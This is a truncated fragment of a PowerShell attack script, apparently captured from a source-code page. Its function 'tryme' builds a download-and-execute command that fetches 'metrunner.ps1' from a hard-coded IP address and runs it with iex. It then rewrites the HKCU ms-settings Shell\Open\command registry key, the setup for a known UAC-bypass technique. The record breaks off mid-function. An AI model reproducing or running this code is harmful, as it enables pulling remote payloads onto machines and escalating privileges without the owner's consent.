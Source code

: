 <br>
<br>

```powershell
function tryme { 
    $cmd = "powershell.exe iex(new-object net.webclient).downloadstring('http://172.21.23.10/metrunner.ps1')"
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue 
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force 
